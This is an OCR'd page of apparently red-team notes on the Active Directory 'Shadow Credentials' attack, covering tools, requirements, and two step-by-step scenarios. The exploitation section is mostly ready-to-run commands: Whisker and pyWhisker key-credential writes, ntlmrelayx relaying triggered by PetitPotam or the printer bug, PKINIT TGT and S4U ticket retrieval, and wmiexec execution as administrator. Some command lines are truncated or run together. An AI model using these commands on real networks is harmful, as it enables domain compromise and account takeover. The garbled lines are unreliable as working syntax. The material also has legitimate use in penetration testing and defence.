 # Shadow Credentials

## Tools: Whisker https://github.com/eladshamir/Whisker , pyWhisker https://github.com/ShutdownRepo/pywhisker , ShadowSpray https://github.com/Dec0ne/ShadowSpray/

### Add Key Credentials to the attribute msDS-KeyCredentialLink of the target user/computer object and then perform Kerberos authentication as that account using PKINIT to obtain a TGT for that user. When trying to pre-authenticate with PKINIT, the KDC will check that the authenticating user has knowledge of the matching private key, and a TGT will be sent if there is a match.

## WARNING! User objects can't edit their own msDS-KeyCredentialLink attribute while computer objects can. Computer objects can edit their own msDS-KeyCredentialLink attribute but can only add a KeyCredential if none already exists

## Requirements

#### 1) Domain Controller on (at least) Windows Server 2016

#### 2) Domain must have Active Directory Certificate Services and Certificate Authority configured

#### 3) PKINIT Kerberos authentication

#### 4) An account with the delegated rights to write to the msDS-KeyCredentialLink attribute of the target object

## Exploitation

## Windows

#### 1) # Lists all the entries of the msDS-KeyCredentialLink attribute of the target object.

 - Whisker.exe list /target:computername$

#### 2) # Generates a public-private key pair and adds a new key credential to the target object.

 - Whisker.exe add /target:computername$ /domain:constoso.local /dc:dc1.contoso.local /path:C:\path\to\file.pfx /password:P@ssword1

## Linux

 - python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "list"

## Scenarios:

### Scenario 1: Shadow Credential relaying

#### 1) Trigger an NTLM authentication from DC01 (PetitPotam)

#### 2) Relay it to DC02 (ntlmrelayx)

#### 3) Edit DC01 's attribute to create a Kerberos PKINIT pre-authentication backdoor (pywhisker)

### Alternatively : 

 - ntlmrelayx -t ldap://dc02 --shadow-credentials --shadow-target 'dc01$'

### Scenario 2: Workstation Takeover with RBCD

### Only for C2: Add Reverse Port Forward from 8081 to Team Server 81

#### 1) Set up ntlmrelayx to relay authentication from target workstation to DC

 - proxychains python3 ntlmrelayx.py -t ldaps://dc1.ez.lab --shadow-credentials --shadow-credentials

#### 2) Execute printer bug to trigger authentication from target workstation

 - proxychains python3 printerbug.py ez.lab/matt:Password1\!@ws2.ez.lab ws1@8081/

#### 3) Get a TGT using the newly acquired certificate via PKINIT

 - proxychains python3 gettgtpkinit.py ez.lab/ws2\$ ws2.ccache -cert-pfx /opt/impacket/

#### 4) Get a ST (service ticket) for the target account

 - proxychains python3 gets4uticket.py kerberos+ccache://ez.lab\\ws2\$:ws2.ccache@dc1.# Utilize the ST for future activity

 - export KRB5CCNAME=/opt/pkinittools/administrator_ws2.ccache

 - proxychains python3 wmiexec.py -k -no-pass ez.lab/administrator@ws2.ez.lab

